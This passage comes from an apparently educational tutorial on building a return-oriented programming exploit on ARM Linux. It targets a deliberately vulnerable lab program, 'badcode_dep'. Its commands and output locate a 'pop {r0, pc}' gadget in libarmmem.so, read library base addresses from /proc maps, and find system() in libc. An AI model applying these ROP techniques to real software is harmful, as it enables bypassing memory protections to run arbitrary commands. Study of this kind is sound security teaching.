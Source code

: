 It turns out, a more straightforward gadget 'pop {r0, pc}' is readily
available in 'libarmmem.so'

```bash
$ objdump -d /usr/lib/arm-linux-gnueabihf/libarmmem.so | grep -B5 "pop.*r0.*pc"
```

An example output is

```text
    40ec:	28a0000a 	stmiacs	r0!, {r1, r3}
    40f0:	44801004 	strmi	r1, [r0], #4
    40f4:	e1b02102 	lsls	r2, r2, #2
    40f8:	20c010b2 	strhcs	r1, [r0], #2
    40fc:	45c01000 	strbmi	r1, [r0]
    4100:	e8bd8001 	pop	{r0, pc}
```

We now know at the instruction 'pop     {r0, pc}' is at offset 0x4100 in
'libarmmem.so'. And this is the gadget we are going to use for our ROP
exploit. To find out the address of this gadget, we just need to know
the start address of 'libarmmem.so' in the program's address space. It
can be done by running `./badcode_dep` in one terminal, and in another

```bash
$ pid=$(ps -C badcode_dep -o pid --no-header)
$ grep libarmmem /proc/$pid/maps
```

to get the start address 0x76fba00, as shown in the output below

```text
76fba000-76fbf000 r-xp 00000000 b3:07 537813     /usr/lib/arm-linux-gnueabihf/libarmmem.so
76fbf000-76fce000 ---p 00005000 b3:07 537813     /usr/lib/arm-linux-gnueabihf/libarmmem.so
76fce000-76fcf000 rw-p 00004000 b3:07 537813     /usr/lib/arm-linux-gnueabihf/libarmmem.so
```

Adding the offset 0x4100 to it, we have

```bash
$ ret=$(printf %08x $((0x76fba000+0x4100)) | tac -rs..)
```

Similarly, we obtain the address of the 'system()' function by first
finding its offset (0x39fac) in 'libc'

```bash
$ nm -D /lib/arm-linux-gnueabihf/libc-2.19.so | grep '\<system\>'
00039fac W system
```

and then getting the start address of 'libc' (0x76e66000) in memory

```bash
$ grep libc /proc/$pid/maps     
76e66000-76f91000 r-xp 00000000 b3:07 656699     /lib/arm-linux-gnueabihf/libc-2.19.so
76f91000-76fa1000 ---p 0012b000 b3:07 656699     /lib/arm-linux-gnueabihf/libc-2.19.so
76fa1000-76fa3000 r--p 0012b000 b3:07 656699     /lib/arm-linux-gnueabihf/libc-2.19.so
76fa3000-76fa4000 rw-p 0012d000 b3:07 656699     /lib/arm-linux-gnueabihf/libc-2.19.so
```

